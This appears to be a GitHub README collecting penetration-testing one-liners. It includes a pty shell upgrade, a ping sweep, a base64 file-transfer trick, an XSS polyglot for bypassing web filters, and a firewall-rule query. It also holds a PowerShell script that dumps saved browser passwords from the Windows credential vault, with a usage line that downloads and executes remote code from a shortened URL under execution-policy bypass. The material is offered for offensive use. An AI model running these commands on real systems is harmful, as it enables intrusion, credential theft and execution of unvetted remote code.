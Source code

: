 # oneliners
Collection of handy one line things 

### ye olde pty 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### look no nmap
```
for i in `seq 1 255`; do ping -c 1 10.10.10.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done
```

### Upload not one line
```
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF
```
## pentest 

### anti-waf
```
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```
### blocked ports 
```
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```
### run powershell = one line, extract passwords from windows browsers = three lines
# Content: Extract stored credentials from Internet Explorer and Edge
# Author: Florian Hansemann | @HanseSecure | https://hansesecure.de
# Date: 04/2018
# Usage: powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"

[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
